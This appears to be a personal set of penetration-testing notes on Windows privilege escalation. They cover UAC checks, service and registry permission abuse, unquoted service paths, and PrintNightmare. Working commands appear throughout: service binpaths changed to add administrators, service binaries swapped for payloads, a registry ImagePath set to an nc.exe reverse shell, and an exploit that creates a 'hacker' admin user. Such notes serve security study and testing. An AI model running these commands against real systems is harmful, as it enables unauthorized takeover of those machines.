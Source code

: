 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)
[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
	consent prompted elevated privileges. 
	[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
		[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
		Forces an attacker to become noisy. 
		RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
		New accounts operate at medium level.
	Confirm UAC is enabled:
		`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`		
	Check UAC level:
		`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`
			0x5 is the highest level.
	UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)
			PS = `[environment]::OSVersion.Version`
	[UAC bypasses.](https://github.com/hfiref0x/UACME)
		Find a UAC that works in targets window version under keys. 
		Google may have tutorial for exploit?
			Run a DLL
				`rundll32 shell32.dll,Control_RunDLL <path to dll>`
Weak Permissions 
	[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
		Checks for weak ACLs on binaries. 
			`.\SharpUp.exe audit`
			Service Binaries:
			Verify vuln with [icals](https://ss64.com/nt/icacls.html)
				`icals <path to exe>`
			Replace the binary with a malicious one through msfvenom
				`cmd /c copy /Y <exe> "<path to target>"`
				`sc start <service name>
			Service Permissions 
			Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
			`accesschk.exe /accepteula -quvcw <service>` (.exe not needed)
					-q = omit banner
					-u = surpress erros
					-v = verobse
					-c = specify name of windows service
					-w = objects with write only. 
				Change the service binary:
					`sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"``
				Stop the service 
					`sc stop <service>`
				Start the service 
					`sc start <service>`
				confirm local access
					`net local group administrators`
	Cleanup
		Revert the binary path 
			`sc config <service> binpath="<path>"`
		Start the service 
			`sc start <service>`
	Unquoted Service Paths
		Rare to exploit. If service path isn't in ""  windows will search for it in root path. 
		May be able to hijack the service. 
		Search for unquoted service path:
			`wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """``
	Permissive Registry ACLs. 
		Search for weak ACLs
			`accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services`
		Change the ImagePath value in powershell
			`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"`
	Modify Registry Autorun Binaries.
		`Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl`
		If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
Kernel Exploits
	If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)
	[CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
		check for spooler service 
			`ls \\localhost\pipe\spoolss`
		Add local admin with printnightmare 
			`Set-ExecutionPolicy Bypass -scope Process`
		Import powershell script
			`Import-Module ./CVE-2021-1675.ps1`
			`Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"`
		Confirm new user 
			`net user hacker`
Vulnerable Services
	Permitted to install software or vulnerable third-party applications. 
	Check installed programs
		`wmic product get name`
	Check local ports
		`netstat -ano`
		 Check the process ID 
			 `get-process -Id <PID>` 
		Enumerate Running Service 
			`get-service | ? {$_.DisplayName -like '<name>'}`
		